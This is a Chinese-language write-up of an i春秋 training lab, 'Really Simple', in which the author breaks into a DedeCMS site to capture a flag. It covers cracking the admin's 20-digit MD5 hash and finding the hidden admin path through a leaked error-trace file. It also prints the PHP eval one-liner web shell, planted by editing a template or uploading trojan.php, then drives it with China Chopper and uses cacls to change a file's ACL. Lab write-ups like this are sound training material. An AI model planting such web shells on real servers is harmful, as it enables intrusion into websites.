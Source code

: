 ```yaml
---
title: 【i春秋】渗透测试入门 —— 真的很简单
copyright: true
date: 2018-03-06 15:56:26
tags: [i春秋,Pentest,Exploit,Writeup,CMS,Crypto,Web,PHP,Trojan,Vulnerability,Privilege,CMD]
categories: [InfoSec,Pentest]
---
```


# 0x00 前言

本题是渗透测试入门的一道基础题，虽然美其名曰“真的很简单”，但对于新手还是有一定挑战性的，实践并掌握本题中的所有知识点，对渗透测试的基本理解有很大帮助。

此题的目标是对一个**基于[织梦 CMS](http://www.dedecms.com/) 的网站**进行渗透测试，找到网站登录后台，继而入侵服务器找到存放 flag 的文件。从实验手册上，可看出其中还会涉及到简单的提权过程。

- 题目链接：[https://www.ichunqiu.com/battalion?t=2&r=54399](https://www.ichunqiu.com/battalion?t=2&r=54399)
- 解题链接：[https://www.ichunqiu.com/vm/51123/1](https://www.ichunqiu.com/vm/51123/1)

<!-- more -->

![guide](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/guide.png)

# 0x01 网站管理员的密码是多少？

第 1 题相对简单，在实验环境内根据提示打开下载链接 `http://file.ichunqiu.com/49ba59ab`，接着下载爆破工具 `dedecms.exe`：

![dedecms-download](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/dedecms-download.png)

打开工具，输入目标 URL，一键爆破得到管理员的账号 `ichunqiu` 与密码哈希值 `adab29e084ff095ce3eb`：

![dedecms](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/dedecms.png)

仔细数数，发现密码哈希值是 20 位的（注：此处的“位”均为十六进制，而非二进制），上网一查才发现这是织梦 CMS 的特性，实现过程可参考 [DEDECMS的20位MD5加密密文解密示例介绍](http://www.jb51.net/cms/104721.html)：

![dedecms-md5](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/dedecms-md5.png)

将 20 位的哈希值用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 解密，得到密码明文 `only_system`：

![password](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/password.png)

为验证 20 位的 MD5 哈希算法规则，可进一步用 [MD5加密工具](https://md5jiami.51240.com/) 对 `only_system` 加密，发现其 16 位哈希值确实能由 20 位哈希值去掉前 3 位与后 1 位所得:

![password-verify](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/password-verify.png)

# 0x02 网站后台目录名是什么？

第 2 题上来先尝试织梦 CMS 的默认后台路径 `/dede/index.php` 或 `/dede/login.php`，得到 404 的结果也是意料之中，即现在的问题是要找出修改后的后台目录名。

打开实验工具箱，发现【目录扫描】文件夹，以【御剑后台扫描工具】为例，对目标 URL 扫描后得到如下结果：

![directory-scan](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/directory-scan.png)

注意，为了保证扫描效率，一般后台扫描工具都是采用字典扫描，而不是暴力穷举，因此**不同扫描器得到的结果不完全相同，尽可能使用多种扫描器，偏僻怪异的名字可能扫描不出来**。

笔者采用了多种扫描器，并对其可能的结果进行验证，都一无所获，即可**判断此后台目录名具有较强的个性或随机性**。

所以要转换思路，看看织梦 CMS 是否存在后台地址信息泄露的漏洞。果不其然，发现从报错文件 `/data/mysql_error_trace.inc` 或 `/data/mysqli_error_trace.inc` 中，可得到泄露的后台路径，具体可参考：

> [dedecms的各种卡哇伊小漏洞](http://blog.csdn.net/wangyi_lin/article/details/9286937)
> [dedecms(织梦)漏洞&exp整理](http://www.cnblogs.com/hookjoy/p/6996820.html)
> [php学习之织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html)

最后在 `/data/mysqli_error_trace.inc` 中获得后台目录名为 `lichunqiul`：

![mysqli-error-trace](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/mysqli-error-trace.png)

对其进行验证，终于看到了后台登录页面：

![login](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/login.png)

# 0x03 管理员桌面中 flag 文件信息是？

用账号 `ichunqiu` 与密码 `only_system` 登录后台后，根据实验手册，要想办法利用[中国菜刀](http://www.zhongguocaidao.com/)连接服务器，获得 webshell，进而查看 flag 文件中的信息。

## 获取 webshell

首先我们需要在服务器插入[一句话木马](https://baike.baidu.com/item/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC)，然后才能用菜刀连接，获得 webshell。这里介绍两种插入一句话木马的方法。

### 直接修改模板 PHP 源码

依次点击 **模板 -> 标签源码管理**，以编辑第一个模板 `adminname.lib.php` 为例：

![template-list](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/template-list.png)

在模板源码第一行插入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![template-edit](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/template-edit.png)

接着在工具箱【webshell】文件夹打开【中国菜刀】：

![chopper](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/chopper.png)

在 **添加SHELL** 输入框中，输入被插入木马模板文件的地址 `http://www.test.ichunqiu/include/taglib/adminname.lib.php`，其右侧填入木马中接收 POST 请求数据的 key 字段 `cmd`，脚本类型为 `PHP(Eval)`，字符编码为 `GB2312`，设置完成后点击 **添加**：

![add-shell-1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/add-shell-1.png)

若参数设置正确，双击所添加的条目，即可连接服务器的资源管理器，进入到模板文件所在的目录：

![manager-1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/manager-1.png)

### 上传一句话木马文件

先在本地创建文件 `trojan.php`，写入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![trojan-edit](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/trojan-edit.png)

再依次点击 **系统 -> 系统基本参数 -> 附件设置**，如下图更改允许上传的文件类型，否则木马将上传失败：

![file-type](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/file-type.png)

最后点击 **核心 -> 上传新文件**，如下图所示上传木马：

![trojan-upload](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/trojan-upload.png)

上传完毕后点击 **核心 -> 附件数据管理 -> 更改**，即可查看木马的路径：

![trojan-path](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/trojan-path.png)

接着利用菜刀添加SHELL，步骤同上，只不过地址更改为 `http://www.test.ichunqiu/uploads/soft/180307/1_1503138291.php`：

![add-shell-2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/add-shell-2.png)

若参数设置正确，双击连接服务器的资源管理器，即可进入到木马所上传的目录：

![manager-2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/manager-2.png)

## 权限提升

进入到管理员桌面可看到 flag 文件 `flag~ichunqiu.txt`：

![manager-flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/manager-flag.png)

但双击后未显示任何内容，估计是权限受限。接下来可右键点击条目，祭出虚拟终端，即 webshell 的命令行模式：

![chopper-terminal](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/chopper-terminal.png)

先切换至管理员桌面，用 `cacls` 命令查看 flag 文件的[访问控制列表（ACL）](https://baike.baidu.com/item/%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6%E5%88%97%E8%A1%A8)，后用 `whoami` 命令查看用户名，发现 `authority\system` 用户对于 flag 文件的权限是 N，即无权限，用 `type` 命令查看 flag 文件果然是拒绝访问的：

![deny](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/deny.png)

用 `cacls` 命令更改了访问权限后，`authority\system` 用户对于 flag 文件的权限变成了 F，即所有权限，再次查看 flag 文件内容即可看到 `key{il2o3l}`：

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/flag.png)

注意提交答案的时候有个坑，记得先拆掉包装，只需提交 `il2o3l` 即可。最后附上 `cacls` 命令的用法：

![cacls](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-pentest-introduction-really-simple/cacls.png)

# 0x04 小结

所谓条条大路通罗马，以上思路可能只是完成目标的其中一种方法。本人能力有限，面对工具箱中种类繁多的各种工具不能信手拈来，对于 Windows 命令的使用也掌握不深，尤其是实验手册中提到的 `net.exe` 工具尚未使用，因为在 webshell 中使用 `net` 命令也是拒绝访问的，这个问题还请各位前辈不吝赐教。

最后向以下两篇参考 writeup 的作者表示致谢！

> [09-在线挑战详细攻略-《真的很简单》](https://bbs.ichunqiu.com/thread-19282-1-1.html)
> [爱春秋-WEB渗透实验-真的很简单-实验记录](https://bbs.ichunqiu.com/thread-15780-1-1.html)